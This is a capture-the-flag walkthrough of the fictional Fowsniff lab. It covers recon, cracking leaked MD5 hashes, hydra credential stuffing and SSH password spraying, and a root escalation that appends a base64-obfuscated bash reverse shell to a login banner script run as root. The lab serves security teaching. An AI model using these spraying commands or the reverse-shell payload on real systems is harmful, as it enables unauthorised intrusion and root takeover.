## TL;DR

Here we find hashes in twitter post, we crack them and find `seina` can log in to the pop3 with her password `scoobydoo2`.
Then, we fetch the emails from this service, and find the password of `baksteen` which is `S1ck3nBluff+secureshell`.
We log in via ssh, and modify the ssh login banner inside `/opt/cube/cube.sh`, and when login again via ssh, we get root shell.

### Recon

we start with `nmap`, using this command:
```bash
nmap -p- -sVC --min-rate=10000 $target -oX nmap.xml -oN nmap.txt -P
```



We can see that port `22` is opened with ssh, port `80` with apache http server, port `110` with pop3 service and port `143` with imap. 

```bash
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 90:35:66:f4:c6:d2:95:12:1b:e8:cd:de:aa:4e:03:23 (RSA)
|   256 53:9d:23:67:34:cf:0a:d5:5a:9a:11:74:bd:fd:de:71 (ECDSA)
|_  256 a2:8f:db:ae:9e:3d:c9:e6:a9:ca:03:b1:d7:1b:66:83 (ED25519)
80/tcp  open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Fowsniff Corp - Delivering Solutions
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
110/tcp open  pop3    Dovecot pop3d
|_pop3-capabilities: UIDL TOP CAPA SASL(PLAIN) USER AUTH-RESP-CODE PIPELINING RESP-CODES
143/tcp open  imap    Dovecot imapd
|_imap-capabilities: LITERAL+ AUTH=PLAINA0001 more have OK IDLE LOGIN-REFERRALS listed capabilities Pre-login post-login SASL-IR IMAP4rev1 ENABLE ID
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Find hashes in twitter post

When we enter the website on port `80`, we can see it says the website has been corrupted.


More interesting, it says:
> Due to the strong possibility that employee information has been made publicly available, all employees have been instructed to change their passwords immediately.

> The attackers were also able to hijack our official @fowsniffcorp Twitter account. All of our official tweets have been deleted and the attackers may release sensitive information via this medium. We are working to resolve this at soon as possible.

Let's go to this `@fowsniffcorp` Twitter account, maybe we'll find something interesting.





This is the message he posted:
```bash
Is that your sysadmin? roflcopter
stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd
```

In addition, it supplied some URL to pastebin post, however, it has been deleted... I can use wayback archieve and might find the original post.
Another method which I'll use, is to take the txt file the author put on its github [https://github.com/berzerk0/Fowsniff/blob/main/fowsniff.txt](https://github.com/berzerk0/Fowsniff/blob/main/fowsniff.txt), We can see this:
```bash
FOWSNIFF CORP PASSWORD LEAK
            ''~``
           ( o o )
+-----.oooO--(_)--Oooo.------+
|                            |
|          FOWSNIFF          |
|            got             |
|           PWN3D!!!         |
|                            |         
|       .oooO                |         
|        (   )   Oooo.       |         
+---------\ (----(   )-------+
           \_)    ) /
                 (_/
FowSniff Corp got pwn3d by B1gN1nj4!
No one is safe from my 1337 skillz!
 
 
mauer@fowsniff:8a28a94a588a95b80163709ab4313aa4
mustikka@fowsniff:ae1644dac5b77c0cf51e0d26ad6d7e56
tegel@fowsniff:1dc352435fecca338acfd4be10984009
baksteen@fowsniff:19f5af754c31f1e2651edde9250d69bb
seina@fowsniff:90dc16d47114aa13671c697fd506cf26
stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd
mursten@fowsniff:0e9588cb62f4b6f27e33d449e2ba0b3b
parede@fowsniff:4d6e42f56e127803285a0a7649b5ab11
sciana@fowsniff:f7fd98d380735e859f8b2ffbbede5a7e
 
Fowsniff Corporation Passwords LEAKED!
FOWSNIFF CORP PASSWORD DUMP!
 
Here are their email passwords dumped from their databases.
They left their pop3 server WIDE OPEN, too!
 
MD5 is insecure, so you shouldn't have trouble cracking them but I was too lazy haha =P
 
l8r n00bz!
 
B1gN1nj4

-------------------------------------------------------------------------------------------------
This list is entirely fictional and is part of a Capture the Flag educational challenge.

--- THIS IS NOT A REAL PASSWORD LEAK ---
 
All information contained within is invented solely for this purpose and does not correspond
to any real persons or organizations.
 
Any similarities to actual people or entities is purely coincidental and occurred accidentally.

-------------------------------------------------------------------------------------------------
```

Using [https://hashes.com/en/decrypt/hash](https://hashes.com/en/decrypt/hash) we managed to crack most of the hashes.



```bash
mauer@fowsniff:mailcall
mustikka@fowsniff:bilbo101
tegel@fowsniff:apples01
baksteen@fowsniff:skyler22
seina@fowsniff:scoobydoo2
stone@fowsniff:<password not cracked>
mursten@fowsniff:carp4ever
parede@fowsniff:orlando12
sciana@fowsniff:07011972
```

### Connect using hydra to the pop3 with the user seina and fetch emails

Using `hydra` I managed to find working credentials for `pop3` and also for the `imap`



```bash
┌──(agonen㉿kali)-[~/thm/Fowsniff]
└─$ cat userpass.txt 
mauer:mailcall
mustikka:bilbo101
tegel:apples01
baksteen:skyler22
seina:scoobydoo2
mursten:carp4ever
parede:orlando12
sciana:07011972
                                                                                                                                                                                             
┌──(agonen㉿kali)-[~/thm/Fowsniff]
└─$ hydra -C userpass.txt pop3://$target/
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-11-09 18:43:20
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 8 tasks per 1 server, overall 8 tasks, 8 login tries, ~1 try per task
[DATA] attacking pop3://10.10.86.55:110/
[110][pop3] host: 10.10.86.55   login: seina   password: scoobydoo2
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-11-09 18:43:31


┌──(agonen㉿kali)-[~/thm/Fowsniff]
└─$ hydra -C userpass.txt imap://$target/
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-11-09 18:44:33
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 8 tasks per 1 server, overall 8 tasks, 8 login tries, ~1 try per task
[DATA] attacking imap://10.10.86.55:143/
[143][imap] host: 10.10.86.55   login: seina   password: scoobydoo2
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-11-09 18:44:38
```

So, we got `seina:scoobydoo2`.

Using [https://hackviser.com/tactics/pentesting/services/pop3](https://hackviser.com/tactics/pentesting/services/pop3) and  [https://hackviser.com/tactics/pentesting/services/imap](https://hackviser.com/tactics/pentesting/services/imap) I've got basic enumeration and post exploitation techniques.

So, we'll use this to fetch emails from the `pop3` service
```bash
#!/bin/bash
# Fetch emails from pop3 until empty email
for i in {1..1000}; do
  curl -s -u seina:scoobydoo2 "pop3://$target/$i" -o "pop3_email_$i.eml"
  if [ ! -s "pop3_email_$i.eml" ]; then
    echo "No message at index $i — stopping"
    rm -f "pop3_email_$i.eml"
    break
  fi
  echo "Fetched message $i -> pop3_email_$i.eml"
done
```



### Find ssh password for use baksteen

This is the first email:
```bash
┌──(agonen㉿kali)-[~/thm/Fowsniff]                                                                                                                                                           
└─$ cat pop3_email_1.eml                                                                                                                                                                     
Return-Path: <stone@fowsniff>                                                                                                                                                                
X-Original-To: seina@fowsniff                                                                                                                                                                
Delivered-To: seina@fowsniff                                                                                                                     
Received: by fowsniff (Postfix, from userid 1000)                                                                                                
        id 0FA3916A; Tue, 13 Mar 2018 14:51:07 -0400 (EDT)                                                                                       
To: baksteen@fowsniff, mauer@fowsniff, mursten@fowsniff,                                                                                         
    mustikka@fowsniff, parede@fowsniff, sciana@fowsniff, seina@fowsniff,                                                                         
    tegel@fowsniff                                                      
Subject: URGENT! Security EVENT!                                        
Message-Id: <20180313185107.0FA3916A@fowsniff>                                
Date: Tue, 13 Mar 2018 14:51:07 -0400 (EDT)                                   
From: stone@fowsniff (stone)                                                  
                                                                              
Dear All,                                                               
                                                                        
A few days ago, a malicious actor was able to gain entry to   
our internal email systems. The attacker was able to exploit    
incorrectly filtered escape characters within our SQL database    
to access our login credentials. Both the SQL and authentication                              
system used legacy methods that had not been updated in some time.      
                                                                        
We have been instructed to perform a complete internal system   
overhaul. While the main systems are "in the shop," we have                   
moved to this isolated, temporary server that has minimal                                     
functionality.                                                          
                                                                        
This server is capable of sending and receiving emails, but only        
locally. That means you can only send emails to other users, not                                                                                             
to the world wide web. You can, however, access this system via                                                                                              
the SSH protocol.                                                       

The temporary password for SSH is "S1ck3nBluff+secureshell"                                                                                      
                                                                                                                                                 
You MUST change this password as soon as possible, and you will do so under my                                                                                                               
guidance. I saw the leak the attacker posted online, and I must say that your                                                                                                                
passwords were not very secure.                                                                                                                  

Come see me in my office at your earliest convenience and we'll set it up.                                                                                                                   

Thanks,                                        
A.J Stone          
```

As we can see, it says the temporary password is `S1ck3nBluff+secureshell`, but we don't know who owes this password.

So, We'll try to bruteforce through all users, password spraying, using `hydra`.



```bash
┌──(agonen㉿kali)-[~/thm/Fowsniff]
└─$ cat userpass.txt | cut -d ":" -f1 > ssh_users.txt
                                                                                                                                                 
┌──(agonen㉿kali)-[~/thm/Fowsniff]
└─$ hydra -L ssh_users.txt -p S1ck3nBluff+secureshell ssh://$target/
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-11-09 19:06:33
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 8 tasks per 1 server, overall 8 tasks, 8 login tries (l:8/p:1), ~1 try per task
[DATA] attacking ssh://10.10.86.55:22/
[22][ssh] host: 10.10.86.55   login: baksteen   password: S1ck3nBluff+secureshell
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-11-09 19:06:45
```

Okay, there are valid credentials:
```bash
baksteen:S1ck3nBluff+secureshell
```

Now we can simply login using shs to the user `baksteen` with the password `S1ck3nBluff+secureshell`.

```bash
ssh baksteen@$target
```


### Esaclate to root using /opt/cube/cube.sh which holds the banner

Using `peass_ng` which I executed with `penelope`, I can detect interesting files of this specific group `users`:
```bash
/opt/cube/cube.sh
```



As we can see, this is the file that got executed when we logged into the
```bash
baksteen@fowsniff:~$ cat /opt/cube/cube.sh
printf "
                            _____                       _  __  __  
      :sdddddddddddddddy+  |  ___|____      _____ _ __ (_)/ _|/ _|  
   :yNMMMMMMMMMMMMMNmhsso  | |_ / _ \ \ /\ / / __| '_ \| | |_| |_   
.sdmmmmmNmmmmmmmNdyssssso  |  _| (_) \ V  V /\__ \ | | | |  _|  _|  
-:      y.      dssssssso  |_|  \___/ \_/\_/ |___/_| |_|_|_| |_|   
-:      y.      dssssssso                ____                      
-:      y.      dssssssso               / ___|___  _ __ _ __        
-:      y.      dssssssso              | |   / _ \| '__| '_ \     
-:      o.      dssssssso              | |__| (_) | |  | |_) |  _  
-:      o.      yssssssso               \____\___/|_|  | .__/  (_) 
-:    .+mdddddddmyyyyyhy:                              |_|        
-: -odMMMMMMMMMMmhhdy/.    
.ohdddddddddddddho:                  Delivering Solutions\n\n"

baksteen@fowsniff:~$ 
```

As we can see, inside the file `/etc/update-motd.d/00-header` it contains the execution of the banner.



We can modify the banner inside the file `/opt/cube/cube.sh`, Once logged in using ssh, it being exeuted as root, and then we can achieve root shell.

we'll use this paylaod from `penelope`:
```bash
printf KGJhc2ggPiYgL2Rldi90Y3AvMTAuOS4yLjE0Ny80NDQ0IDA+JjEpICY=|base64 -d|bash
```

And put it inside the file `/opt/cube/cube.sh`:
```bash
echo -e 'printf KGJhc2ggPiYgL2Rldi90Y3AvMTAuOS4yLjE0Ny80NDQ0IDA+JjEpICY=|base64 -d|bash' >> /opt/cube/cube.sh
```
Then, we'll connect again to the machine using `ssh`, same as before, to execute the reverse shell.
As we can see, we got shell as root:




